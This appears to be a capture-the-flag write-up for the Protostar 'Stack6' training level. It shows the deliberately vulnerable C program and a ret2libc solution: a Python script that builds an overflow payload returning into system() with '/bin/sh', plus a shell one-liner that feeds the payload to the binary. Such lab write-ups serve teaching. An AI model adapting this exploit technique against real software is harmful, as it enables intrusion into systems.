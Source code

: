 # Stack6

## Description
Stack6 looks at what happens when you have restrictions on the return address.
This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.
It is strongly suggested you experiment with multiple ways of getting your code to execute here.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
## Solution 
On looking the code we can see that we cannot jump to the stack as the if condition exits the program. So we have to perform a ret2libc attack on this code. We can execute this shell by executing /bin/sh in the libc. We can find the address of system. 
![screenshot](screenshot1.jpg)
Then we can find the address of /bin/sh in the libc.
![screenshot](screenshot2.jpg) 
After this we can write a script for buffer overflow and locating libc and returning to /bin/sh. This can done through following command and script
```bash
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack6
```
### Script.py
```python
import struct

padding = '1'*80
sys = struct.pack("I",0xb7ecffb0)
ret = "aaaa"
bin = struct.pack("I",0xb7fb63bf)

print(padding+sys+ret+bin)
```
![screenshot](screenshot3.jpg)